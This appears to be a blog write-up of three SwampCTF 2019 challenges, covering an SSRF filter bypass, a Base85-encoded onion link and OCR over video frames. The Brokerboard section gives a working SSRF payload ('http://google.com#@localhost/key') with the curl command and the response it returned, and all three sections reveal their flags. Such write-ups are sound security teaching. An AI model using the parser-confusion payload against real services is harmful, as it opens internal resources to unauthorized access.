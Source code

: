 ```yaml
---
layout: post
title: SwampCTF 2019 - Write-Ups
---
```


## Brokerboard [50]

### Problem Description

It's the year 1997 and the Internet is just heating up! :fire:

In order to get ahead of the curve, SIT Industries® has introduced it's first Internet product: The Link Saver™. SIT Industries® has been very secretive about this product - even going so far to hire Kernel Sanders® to test the security!

However, The Kernel discovered that The Link Saver had a little bit of an SSRF problem that allowed any user to fetch the code for The Link Saver™ from https://localhost/key and host it themselves :grimacing:. Fortunately, with a lil' parse_url magic, SIT Industries® PHP wizards have patched this finding from Kernel Sanders® and are keeping the code behind this wonderful site secure!

... or have they? :wink:

chal1.swampctf.com:1244

-= Created by andrewjkerr =-

- - - -

### Solution

After connecting to the [website](http://chal1.swampctf.com:1244/) of the challenge, we obtain the following page:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img1.png)

There was an input field in the page allowing us to send a request to the URL we wanted.

After some tries I noticed that the only accepted URL was <www.google.com>. Taking this into account, we tried injecting <http://google.com#@localhost/key>.

```
$ curl http://google.com#@localhost/key --data="link=http://google.com#@localhost/key"

<html>
<head>
    <title>Link Fetcher</title>
</head>
<body>
    <h1>The Link Fetcher</h1>
    <p>Want to remember cool links? This link fetcher will fetch links and store them for you!</p>
    <form action="/" method="POST">
        <input type="text" name="link" />
        <input type="submit" />
    </form>

    <p>Link added!</p><p>Link: http://google.com#@localhost/key</p><p>Title: The flag!</p><p>Description: flag{y0u_cANn0t_TRU5t_php}</p><hr /></body>
```
Flag: **flag{y0u_cANn0t_TRU5t_php}**

## NIT [128]

### Problem Description

The network investigative technique had just triggered and we were starting receive telemetry when, suddenly, a pop-up asked him for administrative access. He freaked out and yanked his cable leaving us with a copious amount of line noise. We've been tracking this guy for a while and really need a win here.

See if you can get anything out of this mess:

A7]^gF*(u(BkVO)1MV#U/oPWADf.4LBQ&)IE+j2TD.GLe2e4XS@q%-(3+b!&3+=g#AMcDXAMuMZ@:V/M2e4jY

-= Created by v0ldemort =-

- - - -

### Solution

We received a ciphered/encoded string, "A7]^gF*(u(BkVO)1MV#U/oPWADf.4LBQ&)IE+j2TD.GLe2e4XS@q%-(3+b!&3+=g#AMcDXAMuMZ@:V/M2e4jY". After trying to decipher it using many Cipher algorithms, I found the solution. It was encoded using [Base85](https://en.wikipedia.org/wiki/Ascii85):

I used [CyberChef](https://gchq.github.io/CyberChef) to decode the string obtaining an onion link _depastedihrn3jtw.onion/show.php?md5=7d1ecb0f8f428b70e49de68ead337d7e_:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img2.png)

This link shows the following information in the comments:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img3.jpg)

The comment with "flag = fecabed47e50e3a2b615e86d0e0f1c59" suggested me to visit the following onion link _depastedihrn3jtw.onion/show.php?md5=fecabed47e50e3a2b615e86d0e0f1c59_, which finally shows the flag:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img4.jpg)

Flag: **flag{sp00ky_W3bz_L0L}**

## Ghidra Release

### Problem Description [310]

[Meanwhile at the NSA on a Friday afternoon]

Manager: Hey, we're going to be releasing our internal video training for Ghidra and we need you to watch it all to flag any content that needs to be redacted before release.

Manager: The release is next Monday. Hope you didn't have any weekend plans!

You: Uhhh, sure bu-

Manager: Great! Thanks. Make sure nothing gets out.

You: ... [looks at clock. It reads 3:45PM]

You: [Mutters to self] No way am I watching all of this: https://static.swampctf.com/ghidra_nsa_training.mp4

-= Created by DigitalCold =-

- - - -

### Solution

I downloaded the video from the provided [link](https://static.swampctf.com/ghidra_nsa_training.mp4).

After having it downloaded, I extracted 1 frame for each second of video using the [ffmpeg](https://ffmpeg.org/ffmpeg.html) tool.

```
$ ffmpeg -i ghidra_nsa_training.mp4 -vf "fps=1" out%0d.png
```

Once having all the frames extracted, I used [tesseract](https://es.wikipedia.org/wiki/Tesseract_OCR), an OCR engine to extract text from images to analyze all the frames previously extracted. The simple bash script I prepare for that:

```
for file in $(ls . | grep png); do
	echo "image:${file}";
	tesseract $file - | grep -i flag
done
```

I obtained the first part of the flag in the image out12175.png, as shown in the following image:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img5.jpg)

The next part of the flag was obtained in the image out26715.png:

![_config.yml]({{ site.baseurl }}/images/2019-4-8-SwampCTF2019/swampctf2019_img6.jpg)

All the parts of the flag were:

* FLAG(1/4): flag{l34
* FLAG(2/4): kfr33_n4
* FLAG(3/4): tion4l_s
* FLAG(4/4): 3cur1ty}

Flag: **flag{l34kfr33_n4tion4l_s3cur1ty}**
